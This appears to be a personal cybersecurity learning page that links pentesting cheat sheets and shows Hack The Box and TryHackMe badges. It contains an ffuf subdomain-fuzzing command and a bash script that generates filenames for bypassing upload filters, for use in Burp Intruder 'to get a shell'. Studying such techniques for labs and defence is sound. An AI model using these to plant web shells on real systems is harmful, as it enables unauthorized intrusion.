 #### Welcome to cyberelic

This site focuses on my cyber security journey.

I am a dedicated cybersecurity enthusiast with a passion for safeguarding digital landscapes in an ever-evolving threat landscape. I thrive on the challenge of protecting organizations and individuals from cyber threats. Whether it's implementing robust security measures, conducting penetration testing, or staying up-to-date with the latest vulnerabilities, my mission is to fortify digital ecosystems and ensure data integrity.

---

Here is a small list of the cheat sheets i've been consistantly referring back to:

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)

- [Hacktricks](https://book.hacktricks.xyz/)

- [WADcoms](https://wadcoms.github.io/)

---

`ffuf /w wordlist.txt:FUZZ -u http://<target>:<port> -H 'Host: FUZZ.<targetip>.local`

---

here is a simple script that i used while trying to bypass an upload filter.


```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
        for ext in '.php' '.phps' '.phar'; do
           echo "shell$char$ext.jpg" >> wordlist.txt
           echo "shell$ext$char.jpg" >> wordlist.txt
           echo "shell.jpg$char$ext" >> wordlist.txt
           echo "shell.jpg$ext$char" >> wordlist.txt
       done
done
```

Use Burp and throw this into intruder to get a shell.

---
#### Hackthebox Academy:

I've been progressing through the Pentester Path and im about %60 finished and its truly a good way to learn the neccessary tools and techniques. below are some of the badges awarded from the HTB academy.

[Arachnoid](https://academy.hackthebox.com/achievement/badge/2fd5f36b-9e12-11ee-bfb6-bea50ffe6cb4) - For completing the Web Attacks module
--
[Inject with Caution](https://academy.hackthebox.com/achievement/badge/876a4881-9001-11ee-bfb6-bea50ffe6cb4) - For completing the Command Injections module 
---

<script src="https://tryhackme.com/badge/101635"></script>
